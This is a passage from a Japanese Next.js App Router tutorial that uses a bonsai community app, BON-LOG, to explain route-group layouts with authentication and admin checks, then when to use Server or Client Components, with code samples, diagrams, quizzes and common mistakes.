  | (legal) | ヘッダー+フッター（シンプル）| なし（誰でもアクセス可）| /terms, /privacy |
  | (public) | ヘッダー+フッター（シンプル）| なし（ユーザー存在確認のみ）| /about, /help |
  | admin/ | 固定サイドバー（264px幅）| あり（認証+管理者権限必須）| /admin, /admin/users |
```

### 認証ページ専用レイアウト

```
ファイルパス: app/(auth)/layout.tsx
```

```typescript
// app/(auth)/layout.tsx（実際のBON-LOG実装）
import Image from 'next/image'

export default function AuthLayout({
  children,
}: {
  children: React.ReactNode
}) {
  return (
    <div className="min-h-screen flex items-center justify-center p-4 relative overflow-hidden bg-gradient-to-br from-bonsai-cream via-background to-secondary/30">
      {/* 背景パターン */}
      <div className="absolute inset-0 seigaiha-pattern" />

      {/* アンビエント照明効果 */}
      <div className="absolute top-[-30%] right-[-15%] w-[600px] h-[600px] rounded-full bg-primary/[0.04] blur-[100px] pointer-events-none" />
      <div className="absolute bottom-[-20%] left-[-10%] w-[500px] h-[500px] rounded-full bg-accent/[0.03] blur-[80px] pointer-events-none" />

      <div className="w-full max-w-md relative z-10 animate-fade-in">
        {/* 装飾 */}
        <div className="flex items-center justify-center mb-10">
          <div className="h-px w-24 bg-gradient-to-r from-transparent to-primary/25" />
          <div className="mx-5 flex gap-2 items-center">
            <div className="w-1 h-1 rounded-full bg-primary/30" />
            <div className="w-1.5 h-1.5 rotate-45 border border-primary/40" />
            <div className="w-1 h-1 rounded-full bg-primary/30" />
          </div>
          <div className="h-px w-24 bg-gradient-to-l from-transparent to-primary/25" />
        </div>

        {/* ロゴ */}
        <div className="text-center mb-10">
          <Image
            src="/logo.png"
            alt="BON-LOG"
            width={220}
            height={88}
            className="mx-auto drop-shadow-sm"
            priority
            unoptimized
          />
          <p className="text-muted-foreground/70 mt-5 text-sm tracking-[0.18em] font-serif">
            盆栽愛好家のためのコミュニティ
          </p>
        </div>

        {/* メインカード（装飾的な角付き） */}
        <div className="relative">
          <div className="absolute -top-2 -left-2 w-6 h-6 border-t-[1.5px] border-l-[1.5px] border-primary/20 rounded-tl-lg" />
          <div className="absolute -top-2 -right-2 w-6 h-6 border-t-[1.5px] border-r-[1.5px] border-primary/20 rounded-tr-lg" />
          <div className="absolute -bottom-2 -left-2 w-6 h-6 border-b-[1.5px] border-l-[1.5px] border-primary/20 rounded-bl-lg" />
          <div className="absolute -bottom-2 -right-2 w-6 h-6 border-b-[1.5px] border-r-[1.5px] border-primary/20 rounded-br-lg" />

          <main id="main-content" tabIndex={-1}>
            {children}
          </main>
        </div>
      </div>
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/login` または `http://localhost:3000/register` にアクセスすると:
> - グラデーション背景（クリーム色からセカンダリカラー）に青海波（seigaiha）パターンが重なる
> - 画面中央にBON-LOGのロゴ画像と「盆栽愛好家のためのコミュニティ」の説明文が表示される
> - その下に装飾的な角枠付きのカード内にログインフォーム（またはユーザー登録フォーム）が表示される
> - 3カラムレイアウトのサイドバーは表示されない（認証ページ専用のシンプルなレイアウト）

### メインアプリ専用レイアウト（3カラム）

```
ファイルパス: app/(main)/layout.tsx
```

```typescript
// app/(main)/layout.tsx（実際のBON-LOG実装）
import { auth } from '@/lib/auth'
import { redirect } from 'next/navigation'
import { ROUTE_LOGIN } from '@/lib/constants/routes'
import { Toaster } from '@/components/ui/toaster'
import { Sidebar } from '@/components/layout/Sidebar'
import { RightSidebar } from '@/components/layout/RightSidebar'
import { MobileNav } from '@/components/layout/MobileNav'
import { Header } from '@/components/layout/Header'
import { isPremiumUser } from '@/lib/premium'
import { KeyboardShortcutsProvider } from '@/components/common/KeyboardShortcutsProvider'

export default async function MainLayout({
  children,
}: {
  children: React.ReactNode
}) {
  // 認証チェック（Server ComponentでDBアクセス）
  const session = await auth()
  if (!session?.user) {
    redirect(ROUTE_LOGIN)
  }

  // プレミアム会員判定（サイドバー・ヘッダーの表示制御に使用）
  const isPremium = await isPremiumUser(session.user.id)

  return (
    <div className="min-h-screen bg-background asanoha-pattern">
      {/* モバイルヘッダー */}
      <Header userId={session.user.id} isPremium={isPremium} />

      <div className="flex">
        {/* 左サイドバー（デスクトップのみ）*/}
        <Sidebar userId={session.user.id} isPremium={isPremium} />

        {/* メインコンテンツ */}
        <main id="main-content" className="flex-1 min-h-screen pb-16 lg:pb-0" tabIndex={-1}>
          <div className="max-w-2xl mx-auto px-4 py-5 lg:py-7">
            {children}
          </div>
        </main>

        {/* 右サイドバー（デスクトップのみ）*/}
        <RightSidebar />
      </div>

      {/* モバイルボトムナビ */}
      <MobileNav userId={session.user.id} isPremium={isPremium} />

      {/* キーボードショートカット（/で検索、nで投稿等）*/}
      <KeyboardShortcutsProvider userId={session.user.id} />

      {/* トースト通知 */}
      <Toaster />
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/feed` や `http://localhost:3000/posts` にアクセスすると:
> - 画面左端に固定のナビゲーションサイドバー（ホーム、検索、通知、ブックマーク等のリンク）が表示される
> - 画面中央にメインコンテンツ（タイムラインや投稿一覧）が最大幅約640pxで表示される
> - 画面右端にトレンドジャンル、おすすめユーザーなどのサイドバーが表示される
> - モバイルでは画面上部にヘッダー、下部にボトムナビが固定表示される
> - 未ログインでアクセスした場合はログインページにリダイレクトされる

> **BON-LOGでの使用箇所**: `app/(main)/layout.tsx` は `(main)` ルートグループ配下の `/feed`、`/posts`、`/users`、`/notifications`、`/bookmarks`、`/messages`、`/settings`、`/drafts`、`/bonsai`、`/analytics` 等すべてのページに適用されます。認証チェック・プレミアム会員判定をこのレイアウトで一元管理しているため、各ページで個別にチェックする必要がありません。
>
> **実装しない場合の影響**: このレイアウトで認証チェックをしていなければ、未ログインユーザーがタイムラインや投稿ページに直接アクセスできてしまいます。なお、proxy.ts（Middleware）が一次的なリダイレクトを担いますが、レイアウト側でも再確認することで多重の保護が実現します。

### 法的ページ専用レイアウト

利用規約やプライバシーポリシーなど、認証不要で誰でもアクセスできる法的ページ用のレイアウトです。

```
ファイルパス: app/(legal)/layout.tsx
```

```typescript
// app/(legal)/layout.tsx（実際のBON-LOG実装）
import Link from 'next/link'
import { auth } from '@/lib/auth'

export default async function LegalLayout({
  children,
}: {
  children: React.ReactNode
}) {
  // セッション状態を確認（ログイン状態に応じてナビゲーションを切り替え）
  const session = await auth()
  const isLoggedIn = !!session?.user

  return (
    <div className="min-h-screen bg-background">
      {/* ヘッダー: ロゴとナビゲーション */}
      <header className="border-b bg-card">
        <div className="max-w-4xl mx-auto px-4 py-4 flex items-center justify-between">
          <Link href="/" className="flex items-center gap-2">
            <LogoIcon className="w-6 h-6 text-primary" />
            <span className="font-bold text-lg">BON-LOG</span>
          </Link>
          <div className="flex items-center gap-4">
            {isLoggedIn ? (
              <Link href="/feed" className="text-sm px-4 py-2 bg-primary text-primary-foreground rounded-lg hover:bg-primary/90">
                タイムラインへ
              </Link>
            ) : (
              <>
                <Link href="/login" className="text-sm text-muted-foreground hover:text-foreground">ログイン</Link>
                <Link href="/register" className="text-sm px-4 py-2 bg-primary text-primary-foreground rounded-lg hover:bg-primary/90">新規登録</Link>
              </>
            )}
          </div>
        </div>
      </header>

      {/* メインコンテンツ */}
      <main id="main-content" className="max-w-4xl mx-auto px-4 py-8" tabIndex={-1}>
        {children}
      </main>

      {/* フッター: 関連ページリンク */}
      <footer className="border-t bg-card mt-auto">
        <div className="max-w-4xl mx-auto px-4 py-6">
          <div className="flex flex-wrap justify-center gap-6 text-sm text-muted-foreground mb-4">
            <Link href="/about" className="hover:text-foreground">BON-LOGについて</Link>
            <Link href="/terms" className="hover:text-foreground">利用規約</Link>
            <Link href="/privacy" className="hover:text-foreground">プライバシーポリシー</Link>
            <Link href="/help" className="hover:text-foreground">ヘルプ</Link>
            <Link href="/contact" className="hover:text-foreground">お問い合わせ</Link>
          </div>
          <p className="text-center text-xs text-muted-foreground">&copy; 2024 BON-LOG. All rights reserved.</p>
        </div>
      </footer>
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/terms` や `http://localhost:3000/privacy` にアクセスすると:
> - 上部にBON-LOGロゴとナビゲーション（ログイン状態に応じて「タイムラインへ」or「ログイン/新規登録」）
> - 中央にmax-width 896pxの読みやすい幅で法的文書が表示される
> - 下部に関連ページへのリンクとコピーライトが表示される
> - 3カラムレイアウトは適用されない（認証不要のシンプルなレイアウト）

> **BON-LOGでの使用箇所**: `/terms`（利用規約）、`/privacy`（プライバシーポリシー）、`/tokushoho`（特定商取引法に基づく表記）に適用されます。
>
> **実装しない場合の影響**: 法的ページは認証なしでアクセスできる必要があります（未登録ユーザーも利用規約を読めるべき）。`(main)` グループに入れてしまうと認証チェックでログインページにリダイレクトされ、法的文書を読めなくなります。

### 公開ページ専用レイアウト

ヘルプセンターなど、認証不要の公開ページ用レイアウトです。法的ページと似た構造ですが、サービス開始前（ユーザー0人）はトップページへリダイレクトする点が異なります。

```
ファイルパス: app/(public)/layout.tsx
```

```typescript
// app/(public)/layout.tsx（実際のBON-LOG実装 - 抜粋）
import { redirect } from 'next/navigation'
import { prisma } from '@/lib/db'
import { auth } from '@/lib/auth'
import { ROUTE_HOME } from '@/lib/constants/routes'

export const dynamic = 'force-dynamic' // リクエストごとにユーザー存在確認

export default async function PublicLayout({
  children,
}: {
  children: React.ReactNode
}) {
  // サービス開始前チェック: ユーザーが0人の場合はトップページへリダイレクト
  const userCount = await prisma.user.count()
  if (userCount === 0) {
    redirect(ROUTE_HOME)
  }

  // セッション状態を確認
  const session = await auth()
  const isLoggedIn = !!session?.user

  return (
    <div className="min-h-screen bg-background">
      {/* ヘッダー・メインコンテンツ・フッター（法的ページと同様の構成） */}
      {/* ... */}
    </div>
  )
}
```

> **BON-LOGでの使用箇所**: `/about`（BON-LOGについて）、`/contact`（お問い合わせ）、`/help`（ヘルプセンター）に適用されます。
>
> **`(legal)` との違い**: `(public)` レイアウトでは `force-dynamic` を指定し、リクエストごとにユーザー存在確認を実行します。サービス開始前（ユーザーが1人も登録されていない状態）ではヘルプページ等を表示せずトップページへリダイレクトします。法的ページは常にアクセス可能である必要があるため、この制限は `(legal)` には適用しません。

### 管理者ダッシュボード専用レイアウト

管理者ページは通常のディレクトリ（括弧なし）を使い、URLに `/admin` を含めています。これにより、proxy.ts（Middleware）で `/admin` パスを保護対象として明確に識別できます。

```
ファイルパス: app/admin/layout.tsx
```

```typescript
// app/admin/layout.tsx（実際のBON-LOG実装 - 抜粋）
import { redirect } from 'next/navigation'
import Link from 'next/link'
import { auth, signOut } from '@/lib/auth'
import { isAdmin } from '@/lib/actions/admin'
import { prisma } from '@/lib/db'
import { ROUTE_LOGIN, ROUTE_FEED, ROUTE_HOME } from '@/lib/constants/routes'

export const dynamic = 'force-dynamic'

const navItems = [
  { href: '/admin', label: 'ダッシュボード', icon: HomeIcon },
  { href: '/admin/users', label: 'ユーザー管理', icon: UsersIcon },
  { href: '/admin/posts', label: '投稿管理', icon: FileTextIcon },
  { href: '/admin/reports', label: '通報管理', icon: AlertTriangleIcon },
  { href: '/admin/hidden', label: '非表示コンテンツ', icon: EyeOffIcon },
  { href: '/admin/blacklist', label: 'ブラックリスト', icon: ShieldBanIcon },
  { href: '/admin/events', label: 'イベント管理', icon: CalendarIcon },
  { href: '/admin/shops', label: '盆栽園管理', icon: MapPinIcon },
  { href: '/admin/shop-requests', label: '変更リクエスト', icon: MessageSquareIcon },
  { href: '/admin/stats', label: '統計情報', icon: TrendUpIcon },
  { href: '/admin/usage', label: 'サービス使用量', icon: GaugeIcon },
  { href: '/admin/maintenance', label: 'メンテナンス', icon: WrenchIcon },
  { href: '/admin/logs', label: '操作ログ', icon: ScrollTextIcon },
]

export default async function AdminLayout({
  children,
}: {
  children: React.ReactNode
}) {
  // [1] ユーザーテーブルが空の場合はサインアウトしてトップへ
  const userCount = await prisma.user.count()
  if (userCount === 0) {
    await signOut({ redirect: false })
    redirect(ROUTE_HOME)
  }

  // [2] 認証チェック
  const session = await auth()
  if (!session?.user?.id) {
    redirect(ROUTE_LOGIN)
  }

  // [3] 管理者権限チェック（admin_usersテーブルを確認）
  const isAdminUser = await isAdmin()
  if (!isAdminUser) {
    redirect(ROUTE_FEED)  // 一般ユーザーはフィードへリダイレクト
  }

  return (
    <div className="min-h-screen bg-muted/30">
      {/* 固定サイドバー（幅264px） */}
      <aside className="fixed top-0 left-0 w-64 h-full bg-card border-r z-50 flex flex-col">
        <div className="p-4 border-b">
          <h1 className="text-xl font-bold">BON-LOG 管理</h1>
          <p className="text-sm text-muted-foreground">管理者ダッシュボード</p>
        </div>

        <nav className="p-4 overflow-y-auto flex-1">
          <ul className="space-y-1">
            {navItems.map((item) => (
              <li key={item.href}>
                <Link href={item.href} className="flex items-center gap-3 px-3 py-2 rounded-lg hover:bg-muted transition-colors">
                  <item.icon className="w-5 h-5" />
                  <span>{item.label}</span>
                </Link>
              </li>
            ))}
          </ul>
        </nav>

        <div className="mt-auto p-4 border-t">
          <Link href="/feed" className="flex items-center gap-2 text-sm text-muted-foreground hover:text-foreground">
            <ArrowLeftIcon className="w-4 h-4" />
            <span>サイトに戻る</span>
          </Link>
        </div>
      </aside>

      {/* メインコンテンツ（サイドバー分オフセット） */}
      <main id="main-content" className="ml-64 min-h-screen" tabIndex={-1}>
        <div className="p-6">
          {children}
        </div>
      </main>
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/admin` にアクセスすると:
> - 画面左端に固定の管理用サイドバー（13項目のナビゲーション）が表示される
> - サイドバー下部に「サイトに戻る」リンクが表示される
> - メインエリアに管理者ダッシュボードのコンテンツが表示される
> - 未ログインでアクセスするとログインページへ、一般ユーザーでアクセスするとフィードページへリダイレクトされる

> **BON-LOGでの使用箇所**: `/admin`（ダッシュボード）以下の全13ページに適用されます。認証チェック + 管理者権限チェックの二重チェックにより、一般ユーザーのアクセスを防ぎます。
>
> **実装しない場合の影響**: 管理者権限チェックがなければ、一般ユーザーがURLを直接入力して管理画面にアクセスできてしまいます。ユーザーの停止処理、投稿の削除、メンテナンスモードの切り替えなどが不正に実行される恐れがあります。

### Route Groupsの利点

1. **レイアウトの切り替え**: 認証ページ・メインアプリ・法的ページ・公開ページ・管理者ページで異なるレイアウトを使用
2. **コードの整理**: 機能ごとにディレクトリを分けて管理
3. **URLの簡潔性**: 不要な階層をURLに含めない
4. **認証戦略の分離**: 各グループで異なるレベルの認証・認可チェックを適用

> **BON-LOGでの使用箇所**: BON-LOGでは4つのRoute Groupsと1つの通常ディレクトリを使用しています。`(auth)` グループはログイン・ユーザー登録・パスワードリセット・メール確認ページを含み、中央寄せの和風カードレイアウトを適用しています。`(main)` グループはタイムライン・投稿詳細・ユーザープロフィール・検索・盆栽園マップ・イベント・通知・ブックマーク・メッセージ・設定・下書き・盆栽図鑑・アナリティクス等すべての認証後ページを含み、3カラムレイアウトと認証チェックを適用しています。`(legal)` グループは利用規約・プライバシーポリシー・特商法表記を含み、認証不要のシンプルなレイアウトを適用しています。`(public)` グループはヘルプ・お問い合わせ・Aboutページを含みます。`admin/` ディレクトリは管理者専用の13ページを含み、認証+管理者権限チェック付きのサイドバーレイアウトを適用しています。
>
> **実装しない場合の影響**: Route Groupsなしでレイアウトを切り替えようとすると、各ページファイルで個別にサイドバーの有無を分岐する必要があり、コードが複雑になります。また各グループで異なる認証戦略（リダイレクト先など）を適用するのも困難になります。

### 理解度チェック

<details>
<summary>Q1: Route Groupの括弧を外すとどうなりますか？（例: (main)をmainに変更）</summary>

**A:** URLにディレクトリ名が含まれるようになります。例えば、`app/main/feed/page.tsx`のURLは`/main/feed`になり、`/feed`ではアクセスできなくなります。括弧は「このディレクトリ名はURLに含めない」という指示です。
</details>

<details>
<summary>Q2: BON-LOGで admin/ ディレクトリにRoute Groups（括弧）を使わない理由は何ですか？</summary>

**A:** 管理者ページは `/admin/*` という明確なURLパスが必要だからです。理由は2つあります。(1) Middlewareで `/admin` パスを保護対象として識別し、認証チェックを適用するため。(2) URLを見ただけで管理者ページであることが明確にわかるため、開発者にとって分かりやすい構造になります。もし `(admin)` とすると、管理者ページのURLが `/users`、`/posts` のようになり、一般ユーザー向けの同名ページと衝突してしまいます。
</details>

<details>
<summary>Q3: (legal)と(public)を1つのRoute Groupにまとめなかった理由は何ですか？</summary>

**A:** `(public)` レイアウトでは `force-dynamic` を指定し、リクエストごとにユーザー存在確認（`prisma.user.count()`）を実行しています。サービス開始前（ユーザーが0人の状態）ではヘルプページ等を表示せずトップページへリダイレクトします。一方、法的ページ（利用規約等）はサービス開始前でも常にアクセスできる必要があります（ユーザーが登録する前に利用規約を読む必要があるため）。この挙動の違いにより、2つの別々のRoute Groupに分離しています。
</details>

---

## 5.4 Server Components vs Client Components

### このセクションで学ぶこと

- Server ComponentsとClient Componentsそれぞれの特徴と制約
- 「どちらを使うべきか」の判断基準
- Compositionパターンで両者を組み合わせる方法
- よくある間違いとその修正方法

App Routerの最も重要な概念の1つです。

### なぜServer ComponentとClient Componentを分けるのか？

初心者の方にとって、「なぜわざわざ2種類のコンポーネントがあるのか？」は当然の疑問です。理由をシンプルに説明します。

**【2種類ある理由】**

Webページには「2種類の仕事」がある

**仕事1: データを取ってきて表示する**

- 例: データベースから投稿一覧を取得して表示
- 例: ユーザーのプロフィール情報を表示
- この仕事はサーバー側でやった方が速い & 安全 → **Server Component** の出番

**仕事2: ユーザーの操作に反応する**

- 例: 「いいね」ボタンをクリックしたらハートの色を変える
- 例: テキストを入力するたびにフォームの文字数を表示する
- この仕事はブラウザ側でしかできない → **Client Component** の出番

もしすべてClient Componentにすると...

- JavaScriptのファイルサイズが巨大になる
- ページの初回表示が遅くなる
- 検索エンジンがコンテンツを読み取りにくい
- データベース接続情報がブラウザに漏れるリスク

だから、**「必要な部分だけClient Component」が鉄則！**

### 判断フローチャート

まず、どちらを使うべきかの判断基準を図で示します。

**Server Component vs Client Component 判断フローチャート**


```mermaid
flowchart TD
    Start[そのコンポーネントで...]
    Start --> UseState{useState / useEffect<br/>を使う?}
    UseState -->|Yes| ClientA[Client Component<br/>'use client' 必要]
    UseState -->|No| EventHandler{onClick / onChange 等の<br/>イベントハンドラを使う?}
    EventHandler -->|Yes| ClientB[Client Component]
    EventHandler -->|No| BrowserAPI{window / localStorage 等の<br/>ブラウザAPIを使う?}
    BrowserAPI -->|Yes| ClientC[Client Component]
    BrowserAPI -->|No| Server[Server Component<br/>デフォルト<br/>'use client' は不要<br/>async/await でDB直接アクセス可能<br/>JSバンドルに含まれない]

    style ClientA fill:#ffe6e6
    style ClientB fill:#ffe6e6
    style ClientC fill:#ffe6e6
    style Server fill:#d4f1d4
```

**【Server Component と Client Component の比較表】**

| 項目 | Server Component | Client Component |
|------|-----------------|-----------------|
| 宣言方法 | 何も書かない（デフォルト） | `'use client'` を先頭に |
| 実行場所 | サーバー | ブラウザ |
| DB直接アクセス | 可能 | 不可（API経由が必要） |
| useState | 使えない | 使える |
| useEffect | 使えない | 使える |
| onClick | 使えない | 使える |
| async/await | 使える | 使えない（コンポーネント） |
| JSバンドル | 含まれない（軽量） | 含まれる |
| SEO | 有利 | 不利 |

### Server Components（デフォルト）

> **JSバンドルとは？**
> ブラウザはTypeScript/JSXを直接実行できないため、ビルド時に全てのコードを1つ（または複数）のJavaScriptファイルにまとめます。これが「バンドル」です。バンドルサイズが大きいほどダウンロードに時間がかかり、ページ表示が遅くなります。Server Componentはバンドルに含まれないため、サイズを削減できます。

**特徴**
- サーバー側でレンダリング
- JavaScriptバンドルに含まれない（クライアントに送信されない）
- データベースや外部APIに直接アクセス可能
- `useState`, `useEffect`等のHooksは使用不可

**いつ使う？**
- データフェッチが必要な場合
- 機密情報（APIキー等）を扱う場合
- 大きな依存関係（ライブラリ）を使う場合

**BON-LOG実例: Server Componentで投稿一覧を表示する**

Server Componentでは、コンポーネント関数に`async`を付けて、直接データベースにアクセスできます。

```typescript
// app/posts/page.tsx (Server Component)
import { prisma } from '@/lib/db'

export default async function PostsPage() {
  // サーバー側で直接DBにアクセス
  const posts = await prisma.post.findMany({
    orderBy: { createdAt: 'desc' },
    take: 20,
  })

  return (
    <div>
      <h1>投稿一覧</h1>
      {posts.map(post => (
        <div key={post.id}>{post.content}</div>
      ))}
    </div>
  )
}
```

> **画面表示**
> `http://localhost:3000/posts` にアクセスすると:
> - 「投稿一覧」という見出しの下に、データベースに保存された投稿が最新順に最大20件表示される
> - 各投稿は投稿本文がそのまま表示される
> - サーバー側でHTMLが生成されるため、ブラウザの「ページのソースを表示」で投稿内容がHTMLに含まれていることを確認できる（SEOに有利）
> - ターミナル（サーバー側のログ）にPrismaのSQLクエリログが出力される

> **実行結果の確認方法**
> 1. ブラウザの開発者ツール（F12）→「Network」タブを開く
> 2. ページをリロードし、最初のHTMLレスポンスを確認する
> 3. 「Response」タブに投稿内容が含まれたHTMLが返されていることがわかる（SSRの証拠）
> 4. 一方、`console.log`をこのコンポーネント内に書いた場合、ブラウザのコンソールには表示されず、ターミナル側に表示される（サーバーで実行されているため）

### Client Components

**特徴**
- クライアント側でレンダリング
- JavaScriptバンドルに含まれる
- `useState`, `useEffect`, `onClick`等のインタラクティブ機能が使える
- ブラウザAPI（`window`, `localStorage`）が使える

**いつ使う？**
- インタラクティブな機能が必要な場合
- React Hooksを使う場合
- イベントハンドラ（`onClick`, `onChange`）を使う場合

**BON-LOG実例: Client Componentで「いいね」ボタンを作る**

「いいね」ボタンはクリックに反応して状態が変わるインタラクティブなUIなので、Client Componentとして実装します。

```typescript
// components/post/LikeButton.tsx (Client Component)
'use client'  // ← この宣言でClient Componentになる

import { useState } from 'react'

export function LikeButton({ postId }: { postId: string }) {
  const [liked, setLiked] = useState(false)   // 状態管理にuseStateが必要
  const [count, setCount] = useState(0)

  const handleLike = async () => {
    setLiked(!liked)                           // 即座にUIを更新（楽観的更新）
    setCount(liked ? count - 1 : count + 1)

    // Server Actionを呼び出し
    await fetch('/api/likes', {
      method: 'POST',
      body: JSON.stringify({ postId }),
    })
  }

  return (
    <button onClick={handleLike}>
      {liked ? '❤️' : '🤍'} {count}
    </button>
  )
}
```

> **画面表示**
> 投稿カードの中にこのLikeButtonが配置されると:
> - 初期状態: 白いハート（🤍）と「0」が表示される
> - ボタンをクリック: 赤いハート（❤️）に変わり、数字が「1」に増える（即座に反映）
> - もう一度クリック: 白いハートに戻り、数字が「0」に減る
> - この状態変化はブラウザ側で実行され、サーバーへのAPI呼び出しはバックグラウンドで行われる

### 使い分けのベストプラクティス

**悪い例: ページ全体をClient Componentにする**

```typescript
'use client'

export default function PostsPage() {
  const [posts, setPosts] = useState([])

  useEffect(() => {
    fetch('/api/posts')
      .then(res => res.json())
      .then(setPosts)
  }, [])

  return (
    <div>
      {posts.map(post => <PostCard key={post.id} post={post} />)}
    </div>
  )
}
```

この書き方の問題点:
- 全コードがJSバンドルに含まれる（ページが重くなる）
- 初回表示が遅い（JS実行後にAPI呼び出し→レンダリング）
- SEOに不利（HTMLが空）

**良い例: Server Componentでデータフェッチ、Client Componentは必要な部分のみ**

この設計パターンをStep by Stepで構築してみましょう。

**Step 1: Server Componentでデータを取得するページを作る**

```typescript
// app/posts/page.tsx (Server Component)
import { prisma } from '@/lib/db'
import { PostCard } from '@/components/post/PostCard'

export default async function PostsPage() {
  const posts = await prisma.post.findMany()  // サーバー側でDB直接アクセス

  return (
    <div>
      {posts.map(post => (
        <PostCard key={post.id} post={post} />
      ))}
    </div>
  )
}
```

**Step 2: 表示担当のServer Componentを作る**

```typescript
// components/post/PostCard.tsx (Server Component)
import { LikeButton } from './LikeButton'

export function PostCard({ post }) {
  return (
    <div>
      <p>{post.content}</p>           {/* テキスト表示 → Server Componentで十分 */}
      {/* インタラクティブ部分のみClient Component */}
      <LikeButton postId={post.id} /> {/* ボタン → Client Componentが必要 */}
    </div>
  )
}
```

**Step 3: インタラクティブ部分だけをClient Componentにする**

```typescript
// components/post/LikeButton.tsx (Client Component)
'use client'
// ... 前述のコード
```

> **画面表示**
> `http://localhost:3000/posts` にアクセスすると:
> - 投稿が縦にカード形式で並ぶ（投稿本文はサーバーでHTMLに組み込み済み）
> - 各カードの下部に「いいね」ボタン（ハートアイコン + 数字）が表示される
> - 投稿本文部分はHTMLとして即座に表示される（Server Component = 高速）
> - 「いいね」ボタン部分はJavaScriptのダウンロード完了後にクリック可能になる（Client Component = ハイドレーション後）
> - ページのソースを表示すると、投稿本文はHTMLに含まれているが、いいねの状態変更ロジック（useState等）は含まれていない

**コンポーネント構成のイメージ**


```mermaid
graph TD
    PostsPage["PostsPage<br/>(Server Component - DBアクセス)"]
    PostsPage --> PostCard1["PostCard<br/>(Server Component - 表示のみ)"]
    PostsPage --> PostCard2["PostCard<br/>(Server Component)"]
    PostsPage --> More["..."]

    PostCard1 --> Content1["&lt;p&gt;{post.content}&lt;/p&gt;<br/>← サーバーで生成"]
    PostCard1 --> UserName1["&lt;span&gt;{post.user.name}&lt;/span&gt;<br/>← サーバーで生成"]
    PostCard1 --> LikeButton1["LikeButton<br/>(Client Component)<br/>← ブラウザで動作"]
    LikeButton1 --> Button1["&lt;button onClick={...}&gt;<br/>← インタラクティブ"]

    PostCard2 --> LikeButton2["LikeButton<br/>(Client Component)"]

    style PostsPage fill:#d4f1d4
    style PostCard1 fill:#d4f1d4
    style PostCard2 fill:#d4f1d4
    style LikeButton1 fill:#ffe6e6
    style LikeButton2 fill:#ffe6e6
```

ポイント: Client Componentは「葉っぱ」(末端)に配置する
         → JSバンドルのサイズを最小限に抑える

### Compositionパターン

Server ComponentからClient Componentに`children`として渡すことで、Client Componentの中でもServer Componentを使えます。

```typescript
// app/posts/[id]/layout.tsx (Server Component)
import { CommentList } from '@/components/comment/CommentList' // Server Component
import { CollapsiblePanel } from '@/components/common/CollapsiblePanel' // Client Component

export default function PostLayout({ children }) {
  return (
    <div>
      {children}
      <CollapsiblePanel>
        {/* Server Componentをchildrenとして渡す */}
        <CommentList postId="123" />
      </CollapsiblePanel>
    </div>
  )
}

// components/common/CollapsiblePanel.tsx
'use client'

export function CollapsiblePanel({ children }) {
  const [isOpen, setIsOpen] = useState(true)

  return (
    <div>
      <button onClick={() => setIsOpen(!isOpen)}>
        {isOpen ? '閉じる' : '開く'}
      </button>
      {isOpen && children}  {/* 表示: childrenはServer Componentのまま動作する */}
    </div>
  )
}
// 動作: 「閉じる」をクリック→CommentListが非表示に / 「開く」をクリック→再表示
```

### よくあるトラブルと解決法

| トラブル | 原因 | 解決法 |
|---------|------|--------|
| "useState is not a function" | Server Componentでhooksを使っている | `'use client'`を追加するか、Client Componentに分離 |
| "async/await is not allowed in Client Component" | Client Componentでasync関数を使っている | データフェッチはServer Componentに移動 |
| 子コンポーネント全体がClient Componentになる | 親に`'use client'`を付けた | Client Componentは末端（葉）に配置する |
| propsにDate/Map等を渡すとエラー | シリアライズ不可能なデータ | string/number/boolean等に変換してから渡す |

### 初心者がやりがちな間違い5選

ここでは、Server ComponentとClient Componentの使い分けで初心者が特につまずきやすいポイントを具体例とともに紹介します。

**間違い1: ページ全体に `'use client'` を付けてしまう**

```typescript
// ❌ 間違い: ページ全体をClient Componentにしている
'use client'

import { useState, useEffect } from 'react'

export default function PostsPage() {
  const [posts, setPosts] = useState([])

  useEffect(() => {
    fetch('/api/posts').then(res => res.json()).then(setPosts)
  }, [])

  return (
    <div>
      <h1>投稿一覧</h1>
      {posts.map(post => (
        <div key={post.id}>{post.content}</div>
      ))}
    </div>
  )
}

// なぜ間違いか:
// - すべてのコードがブラウザに送信される（重い）
// - 初回表示が遅い（JSダウンロード→実行→API呼出→表示）
// - SEOに不利（検索エンジンが見るHTMLが空）
```

```typescript
// ✅ 正しい: Server Componentでデータ取得し、必要な部分だけClient Component
// app/posts/page.tsx (Server Component - 'use client' なし)
import { prisma } from '@/lib/db'
import { LikeButton } from '@/components/post/LikeButton'

export default async function PostsPage() {
  const posts = await prisma.post.findMany()  // サーバー側で直接DB取得

  return (
    <div>
      <h1>投稿一覧</h1>
      {posts.map(post => (
        <div key={post.id}>
          {post.content}
          <LikeButton postId={post.id} />  {/* ここだけClient Component */}
        </div>
      ))}
    </div>
  )
}
```

**間違い2: Server Componentで `useState` / `useEffect` を使おうとする**

```typescript
// ❌ エラーになる: Server Componentでhooksを使っている
import { useState } from 'react'

export default function PostsPage() {
  const [filter, setFilter] = useState('all')  // Error!
  // "useState is not a function" または
  // "Hooks can only be called inside of the body of a function component."
  return <div>...</div>
}

// 解決方法:
// 方法A: コンポーネントに 'use client' を追加する
// 方法B: フィルター部分だけを別のClient Componentに分離する（推奨）
```

**間違い3: Client Componentでasyncコンポーネントを作る**

```typescript
// ❌ エラーになる: Client Componentでasync関数
'use client'

export default async function PostPage({ id }: { id: string }) {
  const post = await prisma.post.findUnique({ where: { id } })  // Error!
  return <div>{post.content}</div>
}

// Client Componentはブラウザで実行されるため、
// Prisma（サーバー専用ライブラリ）は使えません

// 解決方法: データ取得はServer Componentで行い、結果をpropsで渡す
```

**間違い4: `'use client'` の位置を間違える**

```typescript
// ❌ 間違い: importの後に 'use client' を書いている
import { useState } from 'react'
'use client'  // importの後では無効！

export function LikeButton() {
  const [liked, setLiked] = useState(false)
  return <button onClick={() => setLiked(!liked)}>...</button>
}
```

```typescript
// ✅ 正しい: ファイルの最初の行に 'use client' を書く
'use client'

import { useState } from 'react'

export function LikeButton() {
  const [liked, setLiked] = useState(false)
  return <button onClick={() => setLiked(!liked)}>...</button>
}

// ルール: 'use client' はファイルの先頭（コメントを除く最初の文）に書く
```

**間違い5: シリアライズできないデータをClient Componentに渡す**

> **シリアライズ（直列化）とは？**
> Server ComponentからClient Componentにデータを渡す際、ネットワーク経由で送信するためにデータを文字列（JSON）に変換する必要があります。これがシリアライズです。
>
> ```typescript
> // ✅ シリアライズ可能（JSON変換できる）
